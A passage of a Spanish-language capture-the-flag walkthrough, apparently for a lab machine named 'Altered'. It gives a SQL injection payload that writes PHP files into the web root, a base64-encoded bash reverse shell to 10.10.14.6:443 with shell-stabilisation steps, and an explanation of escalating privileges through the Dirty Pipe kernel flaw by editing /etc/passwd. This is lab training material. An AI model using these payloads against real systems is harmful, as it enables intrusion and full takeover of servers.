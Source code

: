 - curl http://10.10.11.159/test

    1       2       test

También puedo escribir archivos PHP que serán ejecutados. Por ejemplo, enviando: 

    {"id":"0 union select 1,2,'<?php phpinfo(); ?>' into outfile '/srv/altered/public/info.php';-- -", "secret":true}

Esa es la salida del phpinfo()¡ asi que funciona 
Para obtener un shell, escribiré un script PHP simple que crea un shell inverso. Para evitar comillas anidadas, crearé un shell inverso y lo codificaré en base64

- echo "bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'" | base64 

YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxJwo=

    {"id":"0 union select 1,2,'<?php system(base64_decode(\"YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxJwo=\")); ?>' into outfile '/srv/altered/public/shell.php';-- -", "secret":true}

vamos a 10.10.14.6/shell.php pero antes podemos nc en modo escucha y tenemos shell, procedemos a tratarla

- script /dev/null -c bash

- ctrl + z

- stty raw -echo; fg

- reset xterm

## Escalamiento de privilegios.

enumeramos cositas y uname -a muestra que el kernel es

Linux altered 5.16.0-051600-generic #202201092355 SMP PREEMPT Mon Jan 10 00:21:11 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux

buscamos y tenemos un CVE-2022-0847 o Dirty Pipe  que se parchó para los kernels 5.16.11, 5.15.25 y 5.10.102. Este cuadro ejecuta 5.16.0 y,
por lo tanto, debería ser vulnerable.

Dirty Pipe (CVE-2022-0847) se hizo público a principios de marzo de 2022, con una publicación de blog detallada de Max Kellermann. 
La publicación tiene grandes detalles sobre cómo funciona. 
https://dirtypipe.cm4all.com/

El exploit aprovecha cómo el sistema almacenará en caché los datos antes de escribirlos en el disco, modificando los datos en ese caché para que 
los cambios se escriban en el disco. Esto permite que un atacante modifique archivos incluso sin permisos de escritura con algunas restricciones:

    Deben tener acceso de lectura al archivo.
    No pueden modificar el primer byte del archivo.
    No pueden cambiar el tamaño del archivo.

Dentro de estas limitaciones, la forma más común de explotar esto es modificar el archivo /etc/passwd   (algo que he mostrado muchas veces antes ). 
La diferencia es que normalmente agrego un segundo usuario root con un hash conocido. En este caso, el exploit normalmente simplemente 
hará una copia de seguridad del archivo, editará al usuario raíz, obtendrá un shell como ese usuario y luego devolverá el archivo original.
